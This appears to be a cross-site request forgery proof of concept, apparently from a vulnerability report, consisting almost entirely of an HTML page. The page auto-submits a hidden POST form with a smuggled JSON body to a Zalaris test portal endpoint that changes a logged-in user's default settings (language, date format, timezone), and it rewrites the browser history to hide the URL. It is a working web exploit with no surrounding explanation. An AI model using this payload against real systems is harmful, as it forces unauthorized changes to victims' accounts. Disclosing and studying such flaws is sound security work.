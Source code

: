 <html><body><script>history.pushState('', '', '/')</script><form action="https://testportal.zalaris.com/neptune/zalaris_launchpad_standard?ajax_id=USER_DEFAULT_UPDATE&ajax_applid=ZALARIS_LAUNCHPAD_STANDARD&sap-client=510&dxp=21100006&field_id=01109&ajax_value=language" method="POST" enctype="text/plain"><input type="hidden" name="&#123;&quot;WA&#95;USER&#95;DEFAULT&quot;&#58;&#123;&quot;DATFM&quot;&#58;&quot;8&quot;&#44;&quot;DCPFM&quot;&#58;&quot;X&quot;&#44;&quot;LANGU&quot;&#58;&quot;Y&quot;&#44;&quot;TZONE&quot;&#58;&quot;UTC&#45;83&quot;&#44;&quot;TZONE&#95;DESCRIPT&quot;&#58;&quot;UTC&#45;8&#58;30&quot;&#44;&quot;TIMEFM&quot;&#58;&quot;4&quot;&#44;&quot;NUMBER&#95;GROUPING&quot;&#58;&quot;&quot;&#44;&quot;NUMBER&#95;DECIMAL&quot;&#58;&quot;&quot;&#44;&quot;EDIT&quot;&#58;true&#125;&#125;" value="" /><input type="submit" value="Submit request" /></form><script>document.forms[0].submit();</script></body></html>

